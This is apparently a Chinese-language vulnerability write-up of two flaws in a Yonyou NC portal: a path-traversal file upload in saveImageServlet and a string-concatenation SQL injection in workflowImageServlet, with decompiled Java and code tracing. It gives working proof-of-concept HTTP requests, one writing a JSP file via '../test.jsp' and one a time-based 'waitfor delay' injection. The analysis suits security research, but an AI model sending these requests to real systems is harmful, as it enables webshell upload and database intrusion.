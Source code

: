 ## 源码
```
链接:https://pan.baidu.com/s/10V-1Foq6MJp82JDF3NHKxg  提取码:9496
```

## saveImageServlet 任意文件上传漏洞分析

官方更新了一个漏洞，说saveImageServlet接口存在任意文件上传漏洞 ，分析一下

```java
package nc.uap.wfm.action;

import java.io.DataOutputStream;
import java.io.File;
import java.io.FileOutputStream;
import java.io.FilterOutputStream;
import java.io.IOException;
import java.util.UUID;
import javax.servlet.ServletException;
import javax.servlet.ServletInputStream;
import nc.uap.lfw.core.exception.LfwRuntimeException;
import nc.uap.lfw.servletplus.annotation.Action;
import nc.uap.lfw.servletplus.annotation.Servlet;
import nc.uap.wfm.action.WfBaseServlet;
import nc.uap.wfm.logger.WfmLogger;

@Servlet(path="/servlet/saveImageServlet")
public class SaveImageServlet
extends WfBaseServlet {
    private static final long serialVersionUID = -5603687395645617927L;

    @Action(method="POST")
    public void doPost() throws ServletException, IOException {
        this.response.setContentType("application/octet-stream");
        String filename = this.request.getParameter("filename");
        if (filename == null || "".equals(filename)) {
            filename = UUID.randomUUID().toString();
        }
        filename = filename + ".png";
        String savePath = this.request.getRealPath("") + "/processxml/images/" + filename;
        ServletInputStream is = this.request.getInputStream();
        FilterOutputStream dos = null;
        try {
            int size = 0;
            byte[] tmp = new byte[10240];
            File f = new File(savePath);
            dos = new DataOutputStream(new FileOutputStream(f));
            int len = -1;
            while ((len = is.read(tmp)) != -1) {
                ((DataOutputStream)dos).write(tmp, 0, len);
                size += len;
            }
            ((DataOutputStream)dos).flush();
            dos.close();
        }
        catch (IOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        finally {
            try {
                if (is != null) {
                    is.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
            try {
                if (dos != null) {
                    dos.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
        }
    }
}

```
![image](https://github.com/wy876/JavaCode/assets/139549762/0aad419b-a532-4e59-bd6f-45fa77ca57c4)

从代码上看，上传文件名进行了处理，` filename = filename + ".png";`   将后缀拼接上了.png格式然后将文件上传，因为强制加上了.png

按道理来说是不存在漏洞的

本地我也进行测试了，基本上不可以，上传的文件都被强制加上了png

![image](https://github.com/wy876/JavaCode/assets/139549762/470d6ac4-82b1-41e8-9c70-bbd786f6f757)

想起来之前网上有文章 利用Windows特性加上 `%00 ` 就成功上传了

![image](https://github.com/wy876/JavaCode/assets/139549762/f802bd33-a0c2-4b50-ab5a-a0e93f382bd7)



数据包：

```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../test.jsp HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件上传路径`http://ip:port/portal/processxml/1.jsp`

## workflowImageServlet 注入漏洞分析
```java
@Servlet(path="/servlet/workflowImageServlet")
public class WorkflowImageServlet
extends WfBaseServlet {
    @Action
    public void doPost() {
        this.response.setHeader("Pragma", "No-cache");
        this.response.setHeader("Cache-Control", "no-cache");
        this.response.setDateHeader("Expires", 0L);
        String wfpk = this.request.getParameter("wfpk");
        String proInsPk = this.request.getParameter("proInsPk");
        DrawBoard drawboard = new DrawBoard();
        BufferedImage image = drawboard.getWorkflowImage(wfpk, proInsPk);
        try {
            ServletOutputStream sos = this.response.getOutputStream();
            ImageIO.write((RenderedImage)image, "JPEG", (OutputStream)this.response.getOutputStream());
            sos.flush();
            sos.close();
        }
        catch (IOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(NCLangRes4VoTransl.getNCLangRes().getStrByID("wfm", "WorkflowImageServlet-000001"));
        }
    }
}
```

![image](https://github.com/wy876/JavaCode/assets/139549762/143e5c2d-2148-4a46-a407-5bfe7c03519b)

在35行代码中`getWorkflowImage `接受了`wfpk`参数，跟踪进去

```java
    public BufferedImage getWorkflowImage(String wfpk, String proInsPk) {
        this.parseProDef(wfpk);
        ProcessDiagram di = this.proDef.getProcessDiagram();
        this.convertObject(di);
        if (proInsPk != null && !"".equals(proInsPk)) {
            ProInsParse.parseState(this, proInsPk);
        }

        return this.buildWorkflowImage(this.proDef);
    }
```
wfpk 参数有接着传入this.parseProDef(wfpk)  

在parseProDe方法中，wfpk 参数进入ProDefsContainer.getByProDefPkAndId(wfpk)

```java
    private void parseProDef(String wfpk) {
        if (wfpk != null && !"".equals(wfpk)) {
            ProDef proDef = ProDefsContainer.getByProDefPkAndId(wfpk);
            if (proDef == null) {
                throw new LfwRuntimeException(NCLangRes4VoTransl.getNCLangRes().getStrByID("wfm", "DrawBoard-000004"));
            } else {
                this.proDef = proDef;
                ProcessDiagram di = proDef.getProcessDiagram();
                this.setWidth(Integer.parseInt(di.getWidth()));
                this.setHeight(Integer.parseInt(di.getHeight()));
            }
        }
    }
```

进入 getByProDefPkAndId 方法，发现将参数`wfpk` 传到`getProDefByPkAndId`方法中

```
    public static ProDef getByProDefPkAndId(String proDefPk) {
        return getProDefByPkAndId(proDefPk);
    }
```

`getProDefByPkAndId`  在该方法中，把参数带入到` getProDefVOByProDefPk` 查询

```java
    private static ProDef getProDefByPkAndId(String proDefPk) {
        getInstance();
        ProDef proDef = ProDefsGlobalCache.getInstance().getProDefByPk(proDefPk);
        if (proDef == null) {
            WfmProdefVO vo = null;

            try {
                vo = ((IWfmProDefQry)NCLocator.getInstance().lookup(IWfmProDefQry.class)).getProDefVOByProDefPk(proDefPk);
            } catch (WfmServiceException var4) {
                WfmLogger.error(var4.getMessage(), var4);
                throw new LfwRuntimeException(var4.getMessage());
            }

            proDef = getProDef(vo);
            ProDefsGlobalCache.getInstance().setProDef(proDefPk, proDef);
        }

        return proDef;
    }
```

跟踪getProDefVOByProDefPk 

![image](https://github.com/wy876/JavaCode/assets/139549762/8d9f4836-f40c-47b1-8727-761a74e7c255)


发现该方法是IWfmProDefQry类的接口

直接搜索看看那个文件引用了该接口类 IWfmProDefQry

![image](https://github.com/wy876/JavaCode/assets/139549762/0427a3b8-233c-4e31-bf51-d69c155897ed)

![image](https://github.com/wy876/JavaCode/assets/139549762/9964843a-a60a-4965-b129-1785a1a09c91)

从WfmProDefQry类中找到getProDefVOByProDefPk方法

![image](https://github.com/wy876/JavaCode/assets/139549762/213e2b50-eced-4f55-b8ee-aeba067811dc)


直接字符串拼接造成sql注入

```java
    public WfmProdefVO getProDefVOByProDefPk(String proDefPk) throws WfmServiceException {
        PtBaseDAO dao = new PtBaseDAO();
        SuperVO[] superVos = null;
        try {
            superVos = dao.queryByCondition(WfmProdefVO.class, "pk_prodef='" + proDefPk + "'");
        }
        catch (DAOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        if (superVos == null || superVos.length == 0) {
            return null;
        }
        return (WfmProdefVO)superVos[0];
    }
```

数据包：
```
GET /portal/pt/servlet/workflowImageServlet/doPost?pageId=login&wfpk=1&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```
![image](https://github.com/wy876/JavaCode/assets/139549762/447d58f0-4332-4a41-b2d6-80f061b03f9b)



